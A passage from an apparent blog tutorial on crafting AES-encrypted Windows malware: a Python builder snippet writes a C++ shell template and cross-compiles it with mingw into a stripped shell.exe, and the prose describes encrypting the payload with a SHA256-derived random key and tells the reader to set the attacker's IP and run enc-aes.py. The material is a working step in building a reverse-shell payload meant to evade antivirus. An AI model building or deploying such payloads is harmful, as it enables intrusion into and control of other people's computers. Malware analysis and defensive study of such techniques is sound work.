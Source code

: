 ```python
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "i686-w64-mingw32-g++ shell3.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1"
    os.system(cmd)
    os.remove("./shell3.cpp")
except Exception as e:
    print ("error compiling malware template :(")
    print (str(e))
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

and this function ***(1)*** takes a `key` which is randomized (16 bytes random string) ***(2)***, and the key is then transform into the SHA256 hash and then it is used as a key for encrypting plaintext.
![AES encryption](/assets/images/5/2021-09-15_13-35.png){:class="img-responsive"}

So, update attacker's IP address and run python script:
```bash
python3 enc-aes.py
```
![python script](/assets/images/5/2021-09-15_13-46.png){:class="img-responsive"}
